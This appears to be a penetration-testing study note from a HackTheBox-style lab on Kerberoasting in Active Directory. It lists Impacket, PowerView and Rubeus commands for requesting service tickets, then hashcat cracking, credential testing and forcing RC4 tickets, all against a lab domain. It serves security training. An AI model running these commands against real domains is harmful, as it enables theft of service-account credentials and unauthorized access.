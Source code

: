 # Cooking With Fire (kerberoasting)

## Kerberoasting - From Linux

A prerequisite to performing Kerberoasting attacks is either domain user credentials (cleartext or just an NTLM hash if using Impacket), a shell in the context of a domain user, or account such as SYSTEM. Once we have this level of access, we can start. We must also know which host in the domain is a Domain Controller so we can query it.



This attacks targets `Service Principal Names (SPN)` accounts.

SPN are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.

Any domain user can request a Kerberos ticket for any service account in the same domain.



**Depending on your position in a network, this attack can be performed in multiple ways:**

* From a non-domain joined Linux host using valid domain user credentials.
* From a domain-joined Linux host as root after retrieving the keytab file.
* From a domain-joined Windows host authenticated as a domain user.
* From a domain-joined Windows host with a shell in the context of a domain account.
* As SYSTEM on a domain-joined Windows host.
* From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.





* `Impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend` → list spn accounts
* `Impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request` → Requesting all TGS tickets
* `Impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev` → Requesting a single TGS ticket.



we can use `-outputfil filename` flag to save the TGS ticket in a file.

* `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt` → cracking Ticket offline using Hashcat
* `sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!` → testing authentication against a domain controller



## Kerberoasting - From Windows

`C:\htb> setspn.exe -Q /` → lists various available SPNs

### **Using PowerView**

* `PS C:\\htb> Import-Module .\\PowerView.ps1` → importing powerview
* `PS C:\\htb> Get-DomainUser * -spn | select samaccountname` → getting spn account
* `PS C:\\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat` → Targeting Specific User
* `PS C:\\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\\ilfreight_tgs.csv -NoTypeInformation` → Exporting All tickets to csv file

### **Using Rubeus**

Rubeus doesnot need us to explicitly set the SPN or the user.

* `PS C:\\htb> .\\Rubeus.exe kerberoast /stats` → get the stats
*   `PS C:\\htb> .\\Rubeus.exe kerberoast`

    we can add flag `/nowrap` so that hash will not be wrapped in any form so it will be easier to crack using hashcat.

    also we can use `/outfile:filename` to save the ticket, instead of displaying it.
* `PS C:\\htb> .\\Rubeus.exe kerberoast /user:testspn /nowrap` → for specific user.

we can use `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket.

RC4 is easier to crack compared to AES 256 and128



